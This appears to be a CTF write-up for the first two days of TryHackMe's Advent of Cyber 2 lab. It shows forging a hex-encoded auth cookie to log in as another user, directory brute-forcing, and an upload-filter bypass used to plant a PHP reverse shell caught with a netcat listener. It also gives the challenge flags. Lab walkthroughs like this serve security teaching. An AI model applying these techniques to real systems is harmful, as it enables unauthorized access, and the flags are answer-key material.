*note: i'll update ASAP*

# [Advent of Cyber 2](https://tryhackme.com/room/adventofcyber2)
---
Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## [Task 1] Introduction
---

## [Task 2] Our Socials
---

## [Task 3] Short Tutorial & Rules
---

## [Task 4] Subscribing
---

## [Task 5] The Story
---

## [Task 6] [Day1] Web Exploitation: A Christmas Crisis
---

Start the machine by clicking "Deploy" green button.
<figure>
<center><a href="1.png"></a></center>
<figcaption>Deploy the machine.</figcaption>
</figure>

Ping the machine' IP Address first to see if the machine already up.
```bash
kali@kali:~$ ping 10.10.182.59
PING 10.10.182.59 (10.10.182.59) 56(84) bytes of data.
64 bytes from 10.10.182.59: icmp_seq=64 ttl=63 time=195 ms
64 bytes from 10.10.182.59: icmp_seq=65 ttl=63 time=250 ms
64 bytes from 10.10.182.59: icmp_seq=66 ttl=63 time=225 ms
64 bytes from 10.10.182.59: icmp_seq=67 ttl=63 time=261 ms
64 bytes from 10.10.182.59: icmp_seq=68 ttl=63 time=215 ms
64 bytes from 10.10.182.59: icmp_seq=69 ttl=63 time=212 ms
```

If the machine already up, go to the machine's IP Address in port 80 on the Browser.
<figure>
<center><a href="2.png"></a></center>
<figcaption>The website.</figcaption>
</figure>

If the website up, register for an account and then login to that account. Inspect the cookie used for authentication via Cookie Editor Extension. The cookie's name is **auth**.
<figure>
<center><a href="3.png"></a></center>
<figcaption>Inspecting cookie used.</figcaption>
</figure>

We can see the format from the value of this cookie is **hexadecimal**.
<figure>
<center><a href="4.png"></a></center>
<figcaption>Hexadecimal format.</figcaption>
</figure>

If we decoded the cookie's value, the decoded data are shown below with **json** format.
```bash
kali@kali:~$ echo "7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a226161616161227d" | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
{"company":"The Best Festival Company", "username":"aaaaa"}
```

We can login to user `Santa` by changing the value of the username and encode it to hexadecimal. So, the Santa's cookie is shown below.
```bash
kali@kali:~$ python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
{"company":"The Best Festival Company", "username":"aaaaa"}
>>> a = '{"company":"The Best Festival Company", "username":"Santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2253616e7461227d'
# ^ is Santa's cookie.
```

Change our cookie to user `santa` with lowercased `s` and encoded it to hexadecimal.
```bash
>>> a = '{"company":"The Best Festival Company", "username":"santa"}'
>>> a.encode("hex")
'7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d'
```

Now, change our cookie on the Browser.
<figure>
<center><a href="5.png"></a></center>
<figcaption>Change cookie to user "santa".</figcaption>
</figure>

Activate all the control and we got the flag!
<figure>
<center><a href="6.png"></a></center>
<figcaption>Flag!</figcaption>
</figure>

The flag is **THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}**.

## [Task 7] [Day2] Web Exploitation: The Elf Strikes Back!
---

Start the machine by clicking "Deploy" green button.
<figure>
<center><a href="7.png"></a></center>
<figcaption>Deploy the machine.</figcaption>
</figure>

Ping the machine' IP Address first to see if the machine already up.
```bash
kali@kali:~$ ping 10.10.13.59
PING 10.10.13.59 (10.10.13.59) 56(84) bytes of data.
64 bytes from 10.10.13.59: icmp_seq=113 ttl=63 time=248 ms
64 bytes from 10.10.13.59: icmp_seq=114 ttl=63 time=215 ms
64 bytes from 10.10.13.59: icmp_seq=115 ttl=63 time=192 ms
64 bytes from 10.10.13.59: icmp_seq=116 ttl=63 time=241 ms
64 bytes from 10.10.13.59: icmp_seq=117 ttl=63 time=233 ms
64 bytes from 10.10.13.59: icmp_seq=118 ttl=63 time=219 ms
```

If the machine already up, go to the machine's IP Address in port 80 on the Browser.
<figure>
<center><a href="8.png"></a></center>
<figcaption>The website.</figcaption>
</figure>

Add the GET parameter `id` in the URL with the value from `Elf McEager`.
```bash
http://10.10.13.59/?id=ODIzODI5MTNiYmYw
#we add ?id=ODIzODI5MTNiYmYw to the URL
```

After that, we successfully logged in, we got upload functionality there.
<figure>
<center><a href="9.png"></a></center>
<figcaption>Upload functionality.</figcaption>
</figure>

We can see the website only accept **image** file as we try to upload some file by looking to the supported types.
<figure>
<center><a href="10.png"></a></center>
<figcaption>Images only.</figcaption>
</figure>

To see where are the files get uploaded to, we can bruteforce the directory using `gobuster`.
```bash
kali@kali:~$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.13.59/ -b 200
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:                     http://10.10.13.59/
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   200
[+] User Agent:              gobuster/3.0.1
[+] Timeout:                 10s
===============================================================
2021/01/05 21:32:16 Starting gobuster
===============================================================
/uploads (Status: 301)
/assets (Status: 301)

# -b flag to remove all results with 200 http code.
```

So we know that all files uploaded to **/uploads/** directory.

Now, we try to upload a reverse shell to gain access. I use a PHP reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Dont forget to change the `$ip` and `$port` variables.
```php
<?php
...
$ip = '10.9.2.21';  // Your tun0 ip -> run ip addr
$port = 1234;       // port to listen
...
?>
```

Run a netcat that listen to port that we declared on the reverse shell, in this case i used port 1234.
```bash
kali@kali:~$ nc -lnvp 1234
```

Upload our reverse shell to the website and intercept it with BurpSuite to change the `mime type` and `filename` to bypass the protection.
<figure>
<center><a href="11.png"></a></center>
<figcaption>Bypass upload protection.</figcaption>
</figure>

After we uploaded the file, we can visit the file in the `/uploads/` directory and open the file we uploaded earlier.
<figure>
<center><a href="12.png"></a></center>
<figcaption>Get shell.</figcaption>
</figure>


Now if we look to our terminal, we successfully logged in to the machine's shell.
```bash
kali@kali:~$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.9.2.21] from (UNKNOWN) [10.10.13.59] 40848
Linux security-server 4.18.0-193.28.1.el8_2.x86_64 #1 SMP Thu Oct 22 00:20:22 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:04:09 up  1:15,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (827): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```

Let's `cat` the `/var/www/flag.txt` to see the flag!
```bash
sh-4.4$ cat /var/www/flag.txt
cat /var/www/flag.txt


==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```
The flag is **THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}**.
